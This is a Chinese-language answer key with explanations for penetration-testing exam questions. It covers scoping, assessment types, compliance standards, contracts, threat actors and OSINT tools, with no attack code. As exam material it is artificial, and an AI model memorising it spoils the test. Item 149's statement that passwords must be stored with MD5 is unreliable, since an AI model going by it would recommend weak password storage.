**A.** 此为**目标导向评估**示例：目标是按需验证组织物理安全。并购前测试通常在组织合并前实施；合规性测试确保组织符合政府法规或企业政策；供应链测试涉及测试组织供应商。

### 49. 合规性评估场景

**B.** 此场景需**合规性评估**，这是一种基于风险的评估，确保政策或法规得到妥善遵循。信用卡公司通常会提供清单供测试人员开展评估。目标导向评估指定测试目标；供应链评估测试组织供应商；红队评估通常由内部测试人员实施，验证组织 IT 团队（蓝队）防御能力。

### 50. 并购前渗透测试

**B.** 两组织合并前，通常开展渗透测试以识别网络互联前需解决的安全漏洞。目标导向评估测试信息能否保持安全；合规性测试确保符合法规或政策；供应链测试针对组织供应商。

# 练习题解析

## 51. D

在供应链评估中，会对组织的供应商进行渗透测试，以确保其网络安全，防止被用作跳板攻击组织自身。目标导向评估旨在测试组织安全的特定方面。合并前测试通常在组织与另一组织合并前进行。

## 52. D

红队评估通常由内部测试人员执行，旨在确保组织的 IT 团队（蓝队）能充分防御网络。目标导向评估旨在测试组织安全的特定方面。供应链测试涉及测试组织的供应商。合规性测试旨在确保组织遵守政府法规或企业政策。

## 53. A

一般来说，若按威胁程度从低到高对威胁行为体分级，顺序大致为：脚本小子 > 黑客活动家 > 恶意内部人员 > 有组织犯罪 > 国家支持的攻击者。

## 54. C

这是威胁建模的示例。通过威胁建模，确定渗透测试中要模拟的威胁类型，然后使用该类威胁通常采用的工具、技术和方法。

## 55. A

这是风险接受的示例。你已评估客户对渗透测试可能带来的影响的容忍度。重要的是客户必须准备好并能够接受渗透测试可能导致网络中断或服务中断的事实。

## 56. D

这是范围蔓延的示例。范围蔓延指在评估范围中增加额外的参数和/或目标。这很常见，应在初始范围界定中规划。例如，你和客户可就测试范围扩大时的价格和进度调整达成一致。

## 57. A

许多渗透测试工具可能受出口管制。美国禁止出口某些类型的软硬件，包括加密工具。若你携带渗透测试工具包出国，持有违禁软硬件可能导致被捕。

## 58. C

许多渗透测试工具可能受出口管制。美国禁止出口某些类型的软硬件，包括加密工具。若你通过互联网国际传输这些工具，可能被捕。

## 59. D

适用于渗透测试和渗透测试人员的法律法规在美国各州之间各不相同。这意味着你需要了解适用于你工作的法律。在此场景下，你需要检查计划实施的评估所适用的所有联邦、州和地方法律。建议聘请律师服务以避免麻烦。

## 60. A

Web 服务描述语言（`WSDL`）是一种基于 XML 的接口定义语言，用于描述 `SOAP` 服务提供的功能。

## 61. C

Web 应用程序描述语言（`WADL`）是一种基于 XML 的、机器可读的 HTTP 基础 Web 服务描述。因此，它通常用于 `REST` 服务而非 `SOAP`。

## 62. B 和 D

应用程序编程接口（`API`）文档描述软件组件如何通信。软件开发工具包（`SDK`）也附带文档。组织可能创建自己的 `SDK`、使用商业 `SDK` 或开源 `SDK`。了解使用哪些 `SDK` 及其位置有助于渗透测试人员测试应用程序，尤其是内部开发的应用程序。

## 63. D

黑盒渗透测试应模拟外部攻击者对网络的视角。因此，测试人员应对内部网络知之甚少或一无所知。

## 64. D

在白盒测试中，你应有权访问大量内部文档。因内部开发的应用程序将作为攻击向量，你应要求客户尽可能提供关于该应用程序的文档。例如，你应索要架构图、示例应用程序请求和 `Swagger` 文档（如适用）。

## 65. C 和 E

作为白盒测试的一部分请求内部架构图时，通常会获得网络图和设施地图等文档。你可利用这些信息绘制网络拓扑，定位关键基础设施设备，如交换机、路由器和服务器。

## 66. A 和 D

示例应用程序请求通常用于测试内部开发的应用程序（桌面或 Web）。内部开发的应用程序通常不像商业应用程序那样经过同等程度的审查，这使它们成为可被利用的潜在攻击向量。对于 Word、Excel 或 Photoshop 等商业应用程序，通常不需要示例应用程序请求，因为它们的弱点已有详细记录。

## 67. C

内部开发的应用程序通常不像商业应用程序那样经过同等程度的审查，这使它们成为可被利用的潜在攻击向量。例如，生成示例应用程序请求时，大多数渗透测试人员会向内部开发的应用程序发送意外信息，以观察应用程序的响应。例如，你可能发现向仅预期八个字符的字段输入超长文本字符串会生成缓冲区溢出错误。你可利用这种不良的错误处理行为，在托管应用程序的 Web 服务器上插入并运行恶意代码。

## 68. A

简单对象访问协议（`SOAP`）是一种消息协议规范，定义 Web 应用程序之间如何交换结构化信息。`SOAP` 项目文件可从 Web 服务描述语言（`WSDL`）文件创建。

## 69. D

`Swagger` 是一个开源框架，旨在帮助开发人员设计、构建、记录和测试表述性状态转移（`REST`）Web 服务。`REST` 是 `SOAP` 协议的替代方案。事实上，`REST` 已开始在大多数现代 Web 应用程序中取代 `SOAP`，成为首选框架。

## 70. B

表述性状态转移（`REST`）Web 应用程序架构基于超文本传输协议（`HTTP`）。

## 71. A

Web 服务描述语言（`WSDL`）是一种基于 XML 的接口定义语言，用于描述 Web 应用程序服务器（如 `SOAP` 服务器）提供的功能。`WSDL` 与表述性状态转移（`REST`）Web 应用程序架构配合不佳，后者多年来一直在缓慢取代 `SOAP`。

## 72. B

Web 应用程序描述语言（`WADL`）提供运行在 Web 应用程序服务器上的基于 HTTP 的 Web 服务的基于 XML 的描述。`WADL` 通常用于表述性状态转移（`REST`）Web 服务。`WADL` 是 `WSDL` 的替代品，通常被认为更易用，但也缺乏 `WSDL` 相关的灵活性。

## 73. B

XML 模式定义（`XSD`）是一项 W3C 规范，规定如何定义 XML 文档中的元素。

## 74. D

进行白盒渗透测试时，尤其是针对内部开发的应用程序，拥有用于创建该应用程序的 `SDK` 文档非常有帮助。数据流图也能让渗透测试人员了解目标应用程序如何与其他网络服务通信。配置文件可能包含账户信息、IP 地址、API 密钥，甚至密码。

# 渗透测试场景与合规性考试题解析

## 75. 答案：B 和 D

进行白盒评估时，通常希望客户将测试人员的用户账户加入其 IPS 白名单。这可以防止他们在开始探测防御时被拦截。此外，还应配置安全例外，允许渗透测试人员的系统绕过 NAC 安全控制。

## 76. 答案：E

由于本场景进行的是黑盒测试，客户的网络应处于“盾牌竖起”模式。渗透测试人员不应拥有内部用户账户，其系统也不应被允许绕过 NAC 安全控制。不应允许证书绑定。

## 77. 答案：A

通常，当 NAC 与 IPSec 结合实施时，客户端必须满足公司安全策略，才能被允许连接到内部安全网络。如果满足策略，将分配一个数字证书，允许其与内部安全网络上的其他系统通信。要绕过 NAC，可以使用证书绑定为测试人员的系统分配数字证书，而无需在每次连接时都证明其合规性。

## 78. 答案：A

这是风险规避的示例。通过拆除门并用混凝土填充墙体，客户完全消除了攻击者利用该门未经授权进入设施的风险。

## 79. 答案：C

这是风险缓解的示例。客户没有完全消除风险，而是使用安保人员作为对策。未经授权访问的风险依然存在，但安保人员的使用控制了该风险。

## 80. 答案：B

这是风险转移的示例。客户没有规避风险或缓解风险，而是将风险转移给了第三方处理器。

## 81. 答案：B

这是风险转移的示例。客户没有通过搬迁到新地点来规避风险，也没有通过对设施进行抗震升级来缓解风险，而是将风险转移给了保险公司。

## 82. 答案：D

在此场景中，客户认定该风险是可接受的，不会采取措施加以控制。通常当组织确定消除或控制风险的成本超过由该风险引发的安全事件成本时，就会出现这种情况。

## 83. 答案：B

因为这是合规性渗透测试，首先需要访问 PCI-DSS 标准并查看客户被视为“合规”的要求。通常，管理组织会发布清单，你应该使用这些清单来评估合规性。这些清单将强烈影响测试的范围、预算和进度。

## 84. 答案：A 和 B

支付卡行业数据安全标准（PCI-DSS）是一组企业必须实施的安全控制，用于保护信用卡数据。例如，其中两项要求规定：组织必须限制对所有持卡人数据的物理访问，且 CDE 网络必须与网络的其余部分隔离。

## 85. 答案：B 和 E

支付卡行业数据安全标准（PCI-DSS）是一组企业必须实施的安全控制，用于保护信用卡数据。例如，其中两项要求规定：所有持卡人数据在网络介质上传输前必须加密，且部署的硬件和软件必须移除所有默认密码。

## 86. 答案：A

支付卡行业数据安全标准（PCI-DSS）是一组企业必须实施的安全控制，用于保护信用卡数据。例如，其中一项要求规定：所有系统必须安装防病毒软件，且必须定期更新。

## 87. 答案：A

支付卡行业数据安全标准（PCI-DSS）是一组企业必须实施的安全控制，用于保护信用卡数据。例如，其中一项要求规定：组织内必须实施强密码策略。

## 88. 答案：A 和 D

支付卡行业数据安全标准（PCI-DSS）是一组企业必须实施的安全控制，用于保护信用卡数据。例如，其中两项要求规定：组织必须监控并审计对所有持卡人数据的访问，且对该数据的访问必须基于“需知原则”进行限制。

## 89. 答案：A

格雷姆-里奇-比利雷法案（GLBA）规定了金融机构如何处理客户的个人信息。例如，它要求公司制定书面信息安全计划，明确旨在保护该信息的流程和程序。

## 90. 答案：C

1996 年《健康保险流通与责任法案》（HIPAA）管辖医疗保健组织。它们必须遵守法案中规定的规则和法规，例如要求进行风险分析和测试组织的安全控制。

## 91. 答案：B

《萨班斯-奥克斯利法案》为美国上市公司在安全策略、标准和控制方面设定了标准。例如，它为网络访问、身份验证和安全设定了标准。

## 92. 答案：D

FIPS 140-2 是美国政府的安全标准，用于认证加密模块。

## 93. 答案：C

在此场景中，花在了解渗透测试目标受众上的时间不足。本应花时间与客户了解其组织、测试目标等。只有在此之后才应创建范围。

## 94. 答案：D

在此场景中，调查结果的机密性未得到维护。博客文章泄露了过多关于客户的信息。客户可能需要数周甚至数月来解决评估中发现的问题。通过公开发布调查结果，你使客户面临潜在攻击。

## 95. 答案：A 和 C

范围界定过程的一部分是确定渗透测试是评估组织对特定已知漏洞的易感性，还是调查未知漏洞。因为这是外部黑盒测试，客户可能不会提供用户账户或其设施的物理访问权限。

## 96. 答案：C

在此场景中，最好的方法是与客户进行影响分析，确定其对影响的容忍度。使用漏洞扫描器获得的信息是否值得潜在风险？对某些组织而言，风险可能值得收益；对其他组织则可能不值得。无论哪种方式，渗透测试人员不应在影响分析完成且客户知晓风险之前使用该工具。

## 97. 答案：B 和 C

客户很可能想知道测试完成后你将提供什么样的报告。他们也想知道由于测试而修复其系统需要多长时间。

## 98. 答案：B

通常，与渗透测试相关的技术约束标识了可测试和不可测试的系统。例如，假设客户使用自动化机器人生产设备制造产品。这些设备非常昂贵，他们可能不希望你将其纳入测试范围。

## 99. 答案：C

因为这是灰盒渗透测试，你可能应该询问客户是希望在现场进行测试，还是希望你从远程异地位置进行测试。现场测试可能产生更好的结果，但成本也更高，因为渗透测试人员会产生差旅费用。异地测试成本较低，因为不需要差旅费用，但由于测试人员不在现场，可能会产生质量较低的结果。

## 100. 答案：B

黑盒测试旨在模拟外部攻击。渗透测试人员应具有典型外部攻击者相同的视角。因此，他们应以类似方式定位，即位于任何外部位置。

## 101. A and E

使用内部团队进行渗透测试有两大主要优势。首先，他们拥有组织的背景知识，可以提高测试的有效性。其次，使用内部员工进行测试通常比聘请渗透测试承包商更便宜。当内部员工不参与渗透测试时，他们可以从事组织的其他项目。

## 102. B and C

外部渗透测试团队是专门为执行渗透测试而聘用的。因为他们不直接受雇于该组织，所以往往具有更高的独立性。如果发现漏洞，他们不必担心得罪经理或总监。事实上，他们通常会为此感到高兴。此外，他们往往偏见较少，因为他们不参与组织网络基础设施的设计或持续维护。

## 103. C and D

内部渗透测试团队可能与组织关系过于密切。例如，他们可能担心在渗透测试中发现的漏洞会对他们的团队产生负面影响，因为他们很可能设计并继续维护被测试的网络。这可能导致在进行渗透测试时缺乏客观性。

## 104. A and C

使用外部承包商团队执行渗透测试有几个应考虑的缺点。首先，如果他们还为你的竞争对手执行渗透测试，可能存在潜在的利益冲突。其次，他们的费用通常很高。

## 105. C

渗透测试人员必须采取不同的思维方式。他们不需要尝试防御所有可能的威胁，只需找到一个可利用的漏洞来达成目标即可。为了发现这些漏洞，他们必须像现实世界中可能攻击系统的对手一样思考。这种方法通常被称为**采用黑客思维**（`adopting the hacker mind-set`）。

## 106. A

网络安全专业人员使用著名的 **CIA 三要素** 模型来描述信息安全目标。CIA 中的 **C** 代表**机密性**（`confidentiality`），旨在防止未经授权访问信息或系统。

## 107. B

网络安全专业人员使用著名的 **CIA 三要素** 模型来描述信息安全目标。CIA 中的 **I** 代表**完整性**（`integrity`），旨在防止未经授权修改信息或系统。

## 108. C

网络安全专业人员使用著名的 **CIA 三要素** 模型来描述信息安全目标。CIA 中的 **A** 代表**可用性**（`availability`），确保信息可供授权访问。

## 109. A

攻击者（和渗透测试人员）试图利用 **DAD 三要素** 的相应目标来破坏 **CIA 三要素** 模型的目标。DAD 中的第一个 **D** 代表**泄露**（`disclosure`），指获得对信息或系统的未授权访问。

## 110. B

攻击者（和渗透测试人员）试图利用 **DAD 三要素** 的相应目标来破坏 **CIA 三要素** 模型的目标。DAD 中的 **A** 代表**篡改**（`alteration`），指对信息或系统进行未授权的更改。

## 111. C

攻击者（和渗透测试人员）试图利用 **DAD 三要素** 的相应目标来破坏 **CIA 三要素** 模型的目标。DAD 中的第二个 **D** 代表**拒绝**（`denial`），指阻止对信息或系统的合法使用。

## 112. A

渗透测试人员试图利用 **DAD 三要素** 的相应目标来破坏 **CIA 三要素** 模型的目标。DAD 中的第一个 **D** 代表**泄露**（`disclosure`），指获得对信息或系统的未授权访问。在该场景中，Natasha 获得了她不应有权访问的后端数据库中的信息。

## 113. C

攻击者（和渗透测试人员）试图利用 **DAD 三要素** 的相应目标来破坏 **CIA 三要素** 模型的目标。DAD 中的 **A** 代表**篡改**（`alteration`），指对信息或系统进行未授权的更改。在该场景中，Kimberly 通过添加未授权的用户账户篡改了认证系统。

## 114. D

攻击者（和渗透测试人员）试图利用 **DAD 三要素** 的相应目标来破坏 **CIA 三要素** 模型的目标。DAD 中的第二个 **D** 代表**拒绝**（`denial`），指阻止对信息或系统的合法使用。在该场景中，Jessica 对文件服务器发起了拒绝服务（`DoS`）攻击，拒绝了合法访问。

## 115. C

攻击者（和渗透测试人员）试图利用 **DAD 三要素** 的相应目标来破坏 **CIA 三要素** 模型的目标。DAD 中的 **A** 代表**篡改**（`alteration`），指对信息或系统进行未授权的更改。在该场景中，Brittany 篡改了员工薪资核算系统。

## 116. C and D

**PCI-DSS** 标准要求处理信用卡业务的组织每年至少进行一次内部和外部渗透测试。如果需要，它们可以更频繁地执行，但这不是强制要求。这些组织在对网络基础设施进行重大更改后，还必须进行渗透测试。

## 117. A

此讨论本应发生在**规划和范围界定阶段**（`planning and scoping phase`）。渗透测试公司和客户应在测试开始前就完成评估的规则达成一致。该信息应记录在书面的**工作说明书**（`SOW`）中，明确规定渗透测试人员被允许使用的工具和技术以及使用它们的风险。

## 118. D

**工作说明书**（`SOW`）是渗透测试**规划和范围界定阶段**（`planning and scoping phase`）期间应定义的一份协议。它包含渗透测试人员和客户之间的工作协议，明确规定了测试的具体技术、工具、活动、交付物和时间表。它可以与现有的**主服务协议**（`MSA`）结合使用。

## 119. D


**白盒渗透测试**（`white box penetration test`）提供对内部网络的完全访问权限，包括路由器、交换机、接入点和服务器等关键基础设施设备的配置设置。因此，白盒测试有时被称为**全知测试**（`full-knowledge tests`），因为它们提供完全的访问权限和可见性。

## 120. A

**保密协议**（`NDA`）是一份法律协议，用于保护承包商在渗透测试期间可能发现的信息。它禁止承包商向未授权方透露此类信息。

## 121. C

**脚本小子**（`script kiddie`）通常缺乏使用自己的工具发起攻击的技术复杂性。相反，他们通常下载现有工具并运行它们。因为这些工具网络安全社区已知晓，所以脚本小子通常比对手层级列表中的其他类型行为体构成的威胁较小。

## 122. D

**高级持续性威胁**（`APT`）通常由国家资助，因此资金非常充足，并拥有高端技术资源和知识。因此，`APT` 通常构成对手层级列表中所有行为体中最大的威胁。

## 123. D

在该场景中，你的扫描被**入侵防御系统**（`IPS`）检测到，结果导致你笔记本电脑使用的 IP 地址被列入黑名单。现在，客户网络上的所有设备都在丢弃带有该黑名单 IP 地址的数据包。

## 124. A

主服务协议（`MSA`）定义了将应用于多个未来协议的通用条款。因此，`MSA` 本质上是一份定义未来工作将在其条款下完成的合同。受 `MSA` 管辖的具体项目将由工作说明书（`SOW`）定义。客户想要签署 `MSA` 这一事实表明，他们可能希望将您的公司用于多个业务。

## 125. B

极有可能，客户已实施网络准入控制（`NAC`）系统。您的笔记本电脑不符合 `NAC` 连接到安全网络所需的标准，因此被隔离在一个独立的修复网络上，它可以在该网络上访问修复服务器（网络上的另一台主机）以达到合规要求。

## 126. E

在此场景中，正在进行红队渗透测试。红队评估通常具有狭窄的目标，而不是试图全面识别和测试所有可能的漏洞。红队评估可能会使用来自许多不同载体的协同攻击来实现这些目标。团队可能被允许使用各种各样的工具和技术来完成此任务，包括技术、物理和社会工程学漏洞利用。

## 127. D

在拥有许多租户的共享设施中进行渗透测试时，了解哪些 SSID 在范围内至关重要。攻破错误的无线网络是非法的，可能导致起诉和/或诉讼。

## 128. A and D

有组织犯罪和国家支持的威胁行为者通常拥有广泛的财务资源和技术专长。这往往使他们能够开发其他人未使用的自定义漏洞利用代码。

## 129. B

恶意内部人员通常是合法获得组织信息和系统一定程度访问权限的员工或承包商。恶意内部人员利用这种信任来破坏组织的信息或系统。

## 130. C

脚本小子通常缺乏使用自己的工具发起攻击的技术复杂性。相反，他们通常下载现有工具并运行它们。因为这些工具网络安全社区已经知晓，脚本小子通常比对手梯队中的其他类型行为者构成的威胁较小。

## 131. C

在此场景中，客户要求您超出商定的测试范围。这是**范围蔓延**的一个例子，这在 IT 承包中很常见。在此场景中，您可以通过两种方式之一来回应。首先，您可以直接拒绝该请求，因为它超出了范围。或者，您可以要求客户在现有合同的附件中包含电子邮件服务器，并支付额外费用。

## 132. A

`PCI-DSS` 标准是一项行业标准，用于确保处理信用卡的组织遵守特定的安全要求。因为您正在测试客户对这些要求的遵守情况，所以您正在进行基于合规性的评估。

## 133. C

测试协议应包含免责声明，表明测试仅在实施时刻有效，因为未来的技术变化可能会暴露当前未知的新漏洞。如果在测试完成后稍晚时候出现新的漏洞利用或漏洞，您不应承担责任。

## 134. B

渗透测试中发现的信息量在很大程度上取决于交战规则和使用的评估类型。例如，白盒测试通常比黑盒测试提供更完整的信息。同样，如果某些系统和设备被确定为超出范围，则它们隐藏的任何漏洞都不会被发现。协议中的此语言旨在保护您，以防在测试完成后在超出范围的系统中发现漏洞。

## 135. A

黑盒测试有时被称为*零知识*评估，因为渗透测试人员对客户网络知之甚少或一无所知。这种类型的评估最能模拟真实的外部攻击。

## 136. B

灰盒测试有时被称为*部分知识*评估，因为渗透测试人员对客户网络有一定了解，但并不掌握全貌。这种类型的评估最能模拟真实的恶意内部人员攻击。

## 137. C

白盒测试有时被称为*完全知识*评估，因为渗透测试人员完全了解客户的网络，包括对所有基础设施设备和服务器的管理访问权限。这种类型的评估通常提供最全面的结果，因为测试人员不需要花时间在发现模式上。他们拥有立即开始广泛评估所需的所有信息。

## 138. A

通常，当 `NAC` 与 `IPSec` 一起实施时，网络设备（如台式机和笔记本电脑）必须符合公司安全策略，才能被允许连接到内部安全网络。如果符合，将为它们分配数字证书，允许它们与内部安全网络上的其他系统通信。否则，它们将被放置在隔离的修复网络上，直到达到合规要求。要绕过 `NAC`，可以使用**证书绑定**为测试人员的系统分配数字证书，而无需在每次连接时证明它们符合要求。

## 139. A

客户组织内部的适当签署授权人是唯一被授权同意渗透测试范围的人员。实际是谁因组织而异。因此，您需要验证签署协议的人是否真的是该组织的适当签署授权人。不要仅凭职位头衔就假设某个人被授权。

## 140. A

在此示例中，您正在评估客户对影响的容忍度。通过在范围内包含此措辞，如果渗透测试真的使关键系统脱机，您可以保护您的组织免受诉讼。

## 141. A and D

因为测试将包括目标组织的网络以及第三方 SaaS 提供商提供的服务，所以您必须在执行渗透测试之前获得双方的书面许可。未能获得任何一方的许可都可能使您面临起诉和/或诉讼。

## 142. B and E

此场景中业务的范围仅限于内部网络基础设施。组织的 ISP、Amazon Web Services 及其邻居的无线网络均归第三方所有，因此被视为超出范围。

## 143. A and C

因为这是灰盒测试，您可以预期拥有有限的网络访问权限和有限的存储访问权限。本质上，您可以预期拥有类似于组织内普通员工的知识和访问级别。

## 144. D

交战规则包括以下内容：

*   测试将进行的时间线
*   要包含/排除的位置、系统、应用程序和其他潜在目标
*   收集信息的数据处理要求
*   目标的预期行为
*   投入测试的资源
*   应解决的任何法律问题
*   通信的时间/方式
*   发生事件时联系谁
*   谁被允许参与渗透测试团队

## 145. D

黑盒测试，有时称为零知识测试，旨在复现攻击者将会遇到的情况。测试人员不会被提供对环境的访问权限或相关信息，相反，他们必须收集信息、发现漏洞，并像攻击者一样在基础设施或系统中穿行。

## 146. C

在入侵防御系统（`IPS`）、Web 应用防火墙（`WAF`）和其他安全设备中将测试人员加入白名单，将允许他们在不被拦截的情况下执行测试。对于白盒测试，这意味着当安全措施检测到测试人员的行动时，测试人员无需花费时间等待解除封锁。黑盒测试和红队测试更有可能导致测试人员被安全措施列入黑名单或拦截。在此场景中，渗透测试人员应告知客户，测试应重点关注通过所有范围内系统发现潜在安全问题，而不仅仅是确定 `IPS` 等主动防御的有效性。

## 147. C

`SOAP` 是一种依赖 `XML` 和相关模式的 API 标准。基于 `XML` 的规范由 `XML Schema Definition`（`XSD`，XML 模式定义）文档管理。拥有特定 API 支持内容的良好参考资料对渗透测试人员来说非常有价值。本题专门询问 `XML` 文件，因此 `SOAP` 项目文件将最有帮助。

## 148. B and E

了解公司政策及其对影响的容忍度是在规划测试行动时所需了解的两个最重要事项。其他事项也很重要，但此场景询问的是最重要的两个。网络安全专业人员普遍认为漏洞管理是任何信息安全计划的关键组成部分，因此，许多组织在公司政策中强制要求漏洞扫描，即使这不是法规要求。被评估组织的风险和影响容忍度应用于定义评估的范围和交战规则。

## 149. A

公司政策，也称为 `corporate policy`，是在分析所有可能影响公司目标、运营和计划的内部和外部因素后制定的一套文档化指南。它由公司董事会制定。公司政策规定了公司对已知和可预见情况的应对。它还决定了战略的制定和实施，并在实现目标的过程中指导和限制公司高层人员的计划、决策和行动。在此场景中，公司政策应详细且具体；因此，公司系统必须使用 `MD5` 哈希算法存储密码。

## 150. A

预算是渗透测试业务流程的关键因素。完成渗透测试需要预算，预算由测试范围和交战规则决定。对于内部渗透测试人员，预算可能仅涉及分配给团队执行测试的时间。对于外部测试人员，预算通常基于测试的复杂性、团队规模和任何相关成本的预估工时开始计算。

## 151. B

机密性控制旨在防止泄露攻击。尽管保密协议（`CA`）是有助于强制双方保密关系的法律文件，但本题询问的是为什么维护发现结果的机密性很重要。如果攻击者在渗透测试期间得知发现结果，他们可能利用这些结果攻破客户的系统。

## 152. D

工作说明书（`SOW`）定义了在测试行动期间将执行的工作。`SOW` 是一份定义测试目的、将进行的测试、将创建的内容、测试完成的时间表、测试价格以及任何其他条款和条件的文档。

## 153. C

大多数渗透测试行动的第一步是确定应测试的内容，通常称为评估的 `scope`（范围）。评估范围决定了渗透测试人员将做什么以及他们的时间将如何分配。因此，这对评估预算有重大影响。

## 154. A

高级持续性威胁（`APT`）是一种计算机网络攻击，其中个人或团体获得对网络的未授权访问，并在较长时间内保持未被检测到。`APT` 在对手等级列表中提供最高级别的威胁。高级持续性威胁行为者使用的许多技术对渗透测试人员很有用，反之亦然。如果你的持久化技术未被客户系统监控或检测到，发现结果应包含可帮助他们针对这一潜在问题进行设计的信息。

## 155. A, D, and F

渗透测试人员将希望立即直接向客户报告更严重的问题。其中一些将记录在测试结束时提交给客户的报告中；然而，有几种情况渗透测试人员应立即致电客户，具体如下：报告任何关键发现、报告任何妥指标，或报告服务器对测试变得无响应。

## 156. A

高级持续性威胁（`APT`）是一种计算机网络攻击，其中个人或团体获得对网络的未授权访问，并在较长时间内保持未被检测到。`APT` 在对手等级列表中提供最高级别的威胁。威胁行为者通常按其能力进行评级。高级持续性威胁行为者使用的许多技术对渗透测试人员很有用，反之亦然。如果你的持久化技术未被客户系统监控或检测到，发现结果应包含可帮助他们针对这一潜在问题进行设计的信息。

## 157. C

**范围蔓延**，即向评估范围增加更多项目和目标，是渗透测试的持续威胁。在范围界定阶段，测试人员不太可能知道可能被发现的所有细节，而在评估过程中，测试人员可能会遇到意外的新目标。范围蔓延是指项目需求在项目生命周期中倾向于增加的现象。

## 158. B

`Swagger` 是用于定义 `REST API` 的开放规范。`Swagger` 文档是基于 `SOAP` 的 Web 服务的 `WSDL` 文档在 `REST API` 中的对应物。`Swagger` 文档指定了 `REST API` 中可用的资源列表以及可以在这些资源上调用的操作。它还指定了操作的参数列表，包括参数的名称和类型、参数是必需还是可选，以及这些参数可接受值的信息。因此，访问 `Swagger` 文档为测试人员提供了 API 如何工作的良好视图，从而了解如何对其进行测试。

## 159. C

网络攻击链包含七个步骤，可增强对攻击的可见性，并丰富分析师对攻击者战术、技术和程序的理解。网络攻击链是一种理解攻击者如何实施必要活动以危害组织的方法论。了解网络攻击链将极大地帮助信息安全专业人员建立强有力的控制和对策，以保护组织资产。本题描述的是**侦察阶段**，这是网络攻击链的第一阶段。在此阶段，攻击者从组织外部在技术和非技术两个层面评估目标。攻击者致力于确定哪些目标能为利用其信息系统所消耗的资源带来最大收益。攻击者会寻找保护较少或存在可利用漏洞的信息系统。

## 160. A

攻击的**行动达成目标阶段**还可能包括窃取敏感信息、未经授权使用计算资源发起拒绝服务攻击，或未经授权修改/删除信息。攻击者在网络攻击链的行动达成目标阶段实施其最初意图，破坏信息或系统的机密性、完整性和/或可用性。

## 161. C

**范围蔓延**是指在评估范围中增加额外项目。测试人员已超出初始评估协议的范围。

## 162. D

红队评估通常比普通渗透测试更有针对性。红队试图模拟攻击者，以获取数据和访问权限为目标，瞄准敏感数据或系统。红队评估不旨在提供目标所有安全缺陷的详细信息。红队可作为安全演练，用于培训事件响应人员，或帮助验证安全设计和实践。

## 163. A

**证书绑定**将主机与 `X.509` 证书（或公钥）关联，然后利用该关联做出信任决策。使用证书绑定有助于防止中间人攻击。在公共网络上通信时，安全地发送和接收信息非常重要。

## 164. B

黑客活动家可能想表达政治或社会观点。黑客活动家通常不是为金钱发动攻击。他们是聚集在一起、自视为对抗不公的个人或黑客团体。黑客活动家使用与黑客相同的工具和战术。

## 165. B

许多渗透测试（尤其是涉及复杂 IT 基础设施的测试）可能需要额外授权。第三方常被用于托管系统，如软件即服务（`SaaS`）、平台即服务（`PaaS`）或基础设施即服务（`IaaS`）云提供商。渗透测试可能会影响这些提供商。因此，确定哪些第三方提供商或合作伙伴在范围内并获得授权至关重要。如果涉及第三方，还应确保客户和第三方都知晓渗透测试可能产生的影响。

## 166. B

**保密协议**（`NDA`）是一份法律文件，旨在保护客户数据及渗透测试人员在测试过程中可能接触到的其他信息的机密性。

## 167. C

**主服务协议**（`MSA`）设定两个组织间的总体条款。许多组织还会创建 `MSA`，定义未来工作合作使用的条款。这使得持续业务和合同更易处理，有助于组织避免重新谈判。当组织预期长期合作或创建支持协议时，`MSA` 很常见。

## 168. D

必须清楚哪些服务集标识符（`SSID`）属于目标，哪些是无效目标。了解哪些子网或 IP 范围在范围内也很重要，以避免攻击错误网络或超出渗透测试范围。在共享办公楼工作时，知晓范围内的 `SSID` 至关重要。攻击错误网络可能导致法律甚至刑事后果。

# 第 2 章：信息收集与漏洞识别

## 1. B

本场景要求进行**黑盒渗透测试**，因此您可能将大部分时间花在评估的**信息收集和漏洞识别阶段**。因为根据定义，在运行测试前，您对组织或其网络几乎没有或完全没有了解。

## 2. B

`whois` 命令可用于从公共记录中收集特定域名所有者的信息。

## 3. A

`nslookup` 命令包含在大多数操作系统（包括 `Windows` 和 `Linux`）中，可用于将组织的域名解析为关联的 IP 地址。

## 4. C

`theHarvester` 是某些 Linux 发行版（如 `Kali Linux`）上可用的工具，可用于查询搜索引擎以发现目标组织的电子邮件地址、员工姓名和其他详细信息。

## 5. E

`recon-ng` 实用程序提供了一个 Web 侦察框架，允许您在 Web 上对组织进行开源侦察。`Censys` 是一个基于 Web 的工具，用于探测给定的 IP 地址。`whois` 命令可用于从公共记录中收集特定域名所有者的信息。`Shodan` 是一种专用工具，渗透测试人员可用其搜索公共来源，寻找目标组织可能在其网络中部署的物联网（`IoT`）设备的证据。

## 6. A

`Censys` 是一个基于 Web 的工具，用于探测给定的 IP 地址。它会展示所能发现的有关分配该 IP 地址的主机的任何信息，例如其使用的 `SSL/TLS` 版本、密码套件及证书链。请注意，一些组织将其 IP 地址列入黑名单，这严重限制了 `Censys` 可发现的信息量。

## 7. D

**指纹识别组织收集档案**（`FOCA`）是一种实用程序，可用于从组织文档（如 `Word`、`PowerPoint`、`OpenOffice` 和 `Adobe Reader` 文件）中收集元数据。`FOCA` 在 `Google` 和 `Bing` 等主流搜索引擎中搜索这些文件，并提取其中可能包含的任何元数据。

## 8. B

`Shodan` 是一种专用工具，渗透测试人员可用其搜索公共来源，寻找目标组织可能在其网络中部署的物联网（`IoT`）设备的证据。这很有用，因为 `IoT` 设备经常采用较弱的安全机制，渗透测试人员可加以利用。

## 9. D

`Maltego` 是渗透测试人员常用的实用程序，用于整理从 `OSINT` 来源收集的信息。其主要优势之一是能够以图形方式显示发现的信息，并将其可视化关联。

## 10. A

`nmap` 实用程序是一种广泛使用的扫描器。您可以用它扫描单个主机（如本场景中提到的 Web 服务器），甚至整个网络。要成为一名成功的渗透测试人员，您应该熟悉 `nmap` 发现信息的各种用法。

## 11. A and B

**翻垃圾桶**是一种通过查看目标组织垃圾中发现的文件来收集信息的技术。同样，`theHarvester` 可用于在互联网上搜索电子邮件地址和员工姓名。这些信息可用于制作有效的**鱼叉式网络钓鱼**攻击。

## 12. B 和 E

成功实施钓鱼攻击的关键在于掌握目标组织领导层的详细信息。通常可以从组织网站的新闻稿和高管简介中获取有用信息。这些信息可以为你提供姓名、职位，甚至可能包括联系信息。

## 13. A 和 D

开源情报（`OSINT`）是指公开可获取且可被动收集的任何信息。因为是被动收集，所以不能使用主动接触目标组织的方法来收集 `OSINT`。例如，运行漏洞扫描是主动方法，而阅读社交媒体帖子和查看企业税务申报则是被动方法。社会安全号码和个人税务申报都是不公开的受保护信息的例子。

## 14. C 和 D

